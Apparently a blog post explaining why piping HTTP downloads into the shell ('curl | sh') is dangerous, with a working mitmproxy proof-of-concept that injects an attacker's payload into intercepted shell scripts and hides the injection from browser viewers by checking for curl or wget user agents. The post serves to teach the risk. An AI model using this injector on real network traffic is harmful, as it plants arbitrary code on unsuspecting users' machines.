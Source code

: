 ```yaml
---
layout: post
title:  'Owning "curl | sh" for Fun and Profit'
categories: [security]
---
```




If you're a web developer, you've probably seen sites asking you to install their software package like so:

```
curl -s http://example.com/install.sh | sh
```


There are a number of subtle problems with piping a HTTP response into the shell (for example, if your connection is
interrupted part-way through the script, the script may end up partially executed, 
[as written about here](https://www.seancassidy.me/dont-pipe-to-your-shell.html)),
but let's look at the most obvious problem: the ease with which a man-in-the-middle can modify code you are about to
directly execute.

Users piping unencrypted web traffic into the shell is about as easy it gets for me as an attacker, because:
- shell scripts are easily identified as such, and so are easy to target
- shell scripts are written in plaintext, so it's straightforward to inject our own code into it
- if they look at it at all, users are likely to inspect the code with a separate tool than they use to download and
  execute it (the browser versus curl or wget), and I can conditionally respond to this.

I wrote a proof-of-concept script, using [mitmproxy](https://mitmproxy.org/index.html), that can detect scripts
downloaded using this pattern and inject shell commands of my choosing.

Let's write a simple [mitmproxy script](https://mitmproxy.org/doc/scripting/inlinescripts.html) to do this.

{% highlight python %}
#!/usr/bin/python

from libmproxy.protocol.http import decoded


def start(context, argv):
    if len(argv) != 2:
        raise ValueError('Usage: -s "inject_shell.py payload.sh"')
    context.payload = get_payload(argv[1])
    

def get_payload(payload_file):
    """
    Read and return the payload file as a string
    """
    f = open(payload_file, 'r')
    lines = f.readlines()
    f.close()
    return '\n'.join(lines)
    
def is_shell_script(resp):
    """
    Returns true if the request is a possible shell script
    """
    shell_content_type = False
    content_type = resp.headers.get_first("content-type", "")
    # if content-type is set, should be text/*
    if content_type != "" and not content_type.startswith('text/'):
        return False
    # and should start with shebang
    if not resp.content.startswith('#!'):
        return False
    return True

def response(context, flow):
    resp = flow.response
    req = flow.request
    with decoded(resp):
        if is_shell_script(resp):
            flow.response.content = flow.response.content.replace(
                '\n',
                '\n' + context.payload + '\n',
                1)
{% endhighlight %}

When a request is made through mitmproxy, this will modify any response that looks like a shell script to contain our
payload. Let's modify this so we only add the payload if the file is downloaded via curl or wget, so that a user
inspecting the code in the browser doesn't see what we've injected:
 
{% highlight python %}
def is_cli_tool(req):
    """
    Returns true if the user-agent looks like curl or wget
    """
    user_agent = req.headers.get_first("User-Agent", "")
    if user_agent.startswith('curl'):
        return True
    if user_agent.startswith('Wget'):
        return True
    return False
def response(context, flow):
  # ...
  with decoded(resp):
      if is_shell_script(resp) and is_cli_tool(req):
      # ...
{% endhighlight %}


To test it out, run mitmproxy with this script in [regular](http://mitmproxy.org/doc/modes.html) mode:


```
mitmproxy -s "inject_shell.py payload.sh
```

Configure your browser to proxy HTTP connections through `localhost:8080`, and take a look at a shell script over HTTP
([like any of the http:// links here](https://www.google.com/webhp?q=filetype:sh+inurl:http)). Looks fine, right?

Now try it via curl:

```
curl -x localhost:8080 http://example.com/install.sh
```

You should now see the payload injected into the response. Same with wget: 

```
wget -qO- http://example.com/install.sh
```

Security is fun. [Source is up on github here](https://github.com/chrishepner/sh-mitm). 